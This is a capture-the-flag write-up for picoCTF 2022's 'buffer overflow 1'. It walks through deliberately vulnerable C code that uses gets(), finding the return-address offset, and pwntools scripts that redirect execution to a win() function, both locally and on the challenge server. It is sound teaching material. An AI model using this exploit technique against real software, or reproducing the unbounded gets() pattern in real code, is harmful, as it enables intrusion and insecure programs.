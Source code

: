 # buffer overflow 1

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2022, Binary Exploitation
Author: SANJAY C / PALASH OSWAL

Description:
Control the return address

Now we're cooking! You can overflow the buffer and return to the flag function in the program.
You can view source here. And connect with it using nc saturn.picoctf.net 64722

Hints:
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.
```

## Solution

### Analyze the given files

Lets start by looking at the given files. First the C source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
We have a `main` function that calls a `vuln` function that is vulnerable to a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) due to the unbounded `gets` call. If we input more than `BUFSIZE`, that is 32 characters/bytes, we can overwrite the return address on the stack to call the `win` function instead of returning to `main`.

The `vuln` file is a 32-bit ELF binary
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ file vuln        
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped
```

### Manually identifying the offset

Next, we need to identify the offset on the stack to the return address from `vuln`. If we send a specific sequence of characters that is a [de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) we can easily calculate the offset to the memory address. 

Creation of such a sequence can be done with [pwntools](https://docs.pwntools.com/en/stable/index.html) `cyclic` or [metasploit's](https://www.metasploit.com/) `msf-pattern_create`.

And the lookup of the offset can then be done with `cyclic` or `msf-pattern_offset`.

Lets create a string that is a bit longer than `32` bytes. Lets go for 100.
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/cyclic 100   
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/cyclic 100 > pattern_100.txt
```

Then we try it out locally
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ cat pattern_100.txt | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
zsh: done                cat pattern_100.txt | 
zsh: segmentation fault  ./vuln
```

The returned value is `0x6161616c`. Lets look this up
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/cyclic -l 0x6161616c  
44
```

So the offset on the stack to the return address is `44` bytes.

### Get the addess of the win function

Now we need to find out the virtual address of the `win` function.  
This can be done with `objdump`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ objdump -t vuln | grep win
080491f6 g     F .text  0000008b              win
```

Or gdb
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ gdb -batch -ex 'info functions' vuln | grep win
0x080491f6  win
```
So the address to `win` is `0x080491f6`.

### Write an exploit

Lets write a small exploit in Python with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html)
```python
#!/usr/bin/python

from pwn import *
import sys

# Use either cyclic or msf-pattern_create/msf-pattern_offset to find the correct offset
offset = 44
padding = b'A'

goal = p32(0x080491f6)      # Address to win function
payload = padding*offset + goal
    
sys.stdout.buffer.write(payload)
```

Note that I used `sys.stdout.buffer.write` here rather than `print`.  
`print` will most likely UTF-8 encode your output and it won't work!

And then we try it out locally
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ echo "picoCTF{fake_flag}" > flag.txt          

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/python local_exploit.py | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{fake_flag}
zsh: done                ~/python_venvs/pwntools/bin/python local_exploit.py | 
zsh: segmentation fault  ./vuln
```
It works, but later the program crashes due to un invalid memory address after the `win` function.  
We can ignore this.

### Get the flag

Lets modify the Python script to connect to the server instead
```python
#!/usr/bin/python

from pwn import *

SERVER = 'saturn.picoctf.net'
PORT = 64722

io = remote(SERVER, PORT)

# Use either cyclic or msf-pattern_create/msf-pattern_offset to find the correct offset
offset = 44
padding = b'A'

goal = p32(0x080491f6)      # Address to win function
payload = padding*offset + goal
    
sys.stdout.buffer.write(payload)
    
io.sendline(payload)
print(io.recvallS())
io.close()
```

And then we run the script to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/python remote_exploit.py             
[+] Opening connection to saturn.picoctf.net on port 64722: Done
[+] Receiving all data: Done (127B)
[*] Closed connection to saturn.picoctf.net port 64722
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [gdb - Linux manual page](https://man7.org/linux/man-pages/man1/gdb.1.html)
- [objdump - Linux manual page](https://man7.org/linux/man-pages/man1/objdump.1.html)
- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
- [Wikipedia - Buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow)
- [Wikipedia - de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
